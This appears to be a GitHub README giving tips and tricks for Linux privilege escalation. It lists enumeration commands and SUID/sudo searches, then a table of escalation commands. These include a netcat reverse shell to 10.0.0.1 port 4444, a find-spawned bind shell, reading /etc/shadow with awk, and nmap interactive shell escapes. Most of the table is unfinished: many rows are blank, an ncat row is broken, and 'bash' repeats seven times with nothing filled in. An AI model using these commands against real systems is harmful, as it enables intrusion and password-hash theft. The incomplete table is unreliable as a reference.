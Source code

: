# Linux-Privilege-Escalation
Tips and Tricks for Linux Priv Escalation

## Start with the basics

Who am i?  
`id`

Who else is on this box (lateral movement)?  
`ls -la /home`  
`cat /etc/passwd`  

What Kernel version and distro are we working with here?  
`uname -a`  
`cat /etc/issue`  

What files and folders are in my home user's directory?  
`ls -la ~`

## Next focus on what we can EXECUTE

Who can execute code as root (probably will get a permission denied)?  
`cat /etc/sudoers`

Can I execute code as root (you will need the user's password)?  
`sudo -l`

What executables have SUID bit that can be executed as another user?  
`find / -user root -perm -4000 -print 2>/dev/null`  
`find / -perm -u=s -type f 2>/dev/null`  
`find / -user root -perm -4000 -exec ls -ldb {} \;`  

If any of the following commands appear on the list of SUID or SUDO commands, they can be used for privledge escalation:

| SUID / SUDO Executables               | Priv Esc Command                                                                    |
|---------------------------------------|-------------------------------------------------------------------------------------|
| nmap<br>(older versions 2.02 to 5.21) | nmap --interactive<br>!sh                                                           |
| netcat<br>nc                          | nc -e /bin/sh 10.0.0.1 4444  |
| ncat
| awk <br>gawk                          | awk '{ print }' /etc/shadow <br> awk 'BEGIN {system("id")}'                         |
| python                                |                                                                                     |
| perl                                  |                                                                                     |
| php                                   |      |
| find                                  | find /home -exec nc -lvp 4444 -e /bin/bash \\;<br> find /home -exec /bin/bash \\;  |
| xxd                                   |                                                                                     |
| vi                                    |                                                                                     |
| more                                  |                                                                                     |
| less                                  |                                                                                     |
| nano                                  |                                                                                     |
| cp                                    |                                                                                     |
| cat                                   |                                                                                     |
| bash                                  |                                                                                     |
| bash                                  |                                                                                     |
| bash                                  |                                                                                     |
| bash                                  |                                                                                     |
| bash                                  |                                                                                     |
| bash                                  |                                                                                     |
| bash                                  |                                                                                     |
